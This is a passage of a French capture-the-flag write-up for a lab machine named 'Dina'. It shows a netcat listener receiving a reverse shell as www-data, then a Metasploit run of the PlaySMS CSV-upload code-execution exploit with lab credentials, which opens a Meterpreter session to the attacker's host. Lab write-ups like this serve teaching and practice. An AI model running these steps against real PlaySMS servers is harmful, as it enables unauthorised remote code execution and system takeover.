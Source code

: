 
### "Réponse" n°2 sur la machine de l'attaquant

```console
root@blinils:~# nc -lvp 12345
listening on [any] 12345 ...
192.168.56.101: inverse host lookup failed: Unknown host
connect to [192.168.56.102] from (UNKNOWN) [192.168.56.101] 39973
/bin/sh: 0: can't access tty; job control turned off
$ id; uname -a;
uid=33(www-data) gid=33(www-data) groups=33(www-data)
Linux Dina 3.2.0-23-generic-pae #36-Ubuntu SMP Tue Apr 10 22:19:09 UTC 2012 i686 i686 i386 GNU/Linux
$ 
```

### Et avec Metasploit ?

```console
root@blinils:~# msfconsole --quiet
[*] Starting persistent handler(s)...
msf > search playsms

Matching Modules
================

   Name                                       Disclosure Date  Rank       Check  Description
   ----                                       ---------------  ----       -----  -----------
   exploit/multi/http/playsms_filename_exec   2017-05-21       excellent  Yes    PlaySMS sendfromfile.php Authenticated "Filename" Field Code Execution
   exploit/multi/http/playsms_uploadcsv_exec  2017-05-21       excellent  Yes    PlaySMS import.php Authenticated CSV File Upload Code Execution


msf > use exploit/multi/http/playsms_uploadcsv_exec

msf exploit(multi/http/playsms_uploadcsv_exec) > set LHOST 192.168.56.102
LHOST => 192.168.56.102
msf exploit(multi/http/playsms_uploadcsv_exec) > set PASSWORD diana
PASSWORD => diana
msf exploit(multi/http/playsms_uploadcsv_exec) > set USERNAME touhid
USERNAME => touhid
msf exploit(multi/http/playsms_uploadcsv_exec) > set RHOST 192.168.56.101
RHOST => 192.168.56.101
msf exploit(multi/http/playsms_uploadcsv_exec) > set TARGETURI /SecreTSMSgatwayLogin/
TARGETURI => /SecreTSMSgatwayLogin/

msf exploit(multi/http/playsms_uploadcsv_exec) > exploit -j -z
[*] Exploit running as background job 0.

[*] Started reverse TCP handler on 192.168.56.102:4444 
[+] Authentication successful: touhid:diana
[*] Sending stage (38247 bytes) to 192.168.56.101
[*] Meterpreter session 1 opened (192.168.56.102:4444 -> 192.168.56.101:51654) at 2018-10-10 11:11:11 +0100

msf exploit(multi/http/playsms_uploadcsv_exec) > sessions

Active sessions
===============

  Id  Name  Type                   Information           Connection
  --  ----  ----                   -----------           ----------
  1         meterpreter php/linux  www-data (33) @ Dina  192.168.56.102:4444 -> 192.168.56.101:51654 (192.168.56.101)
```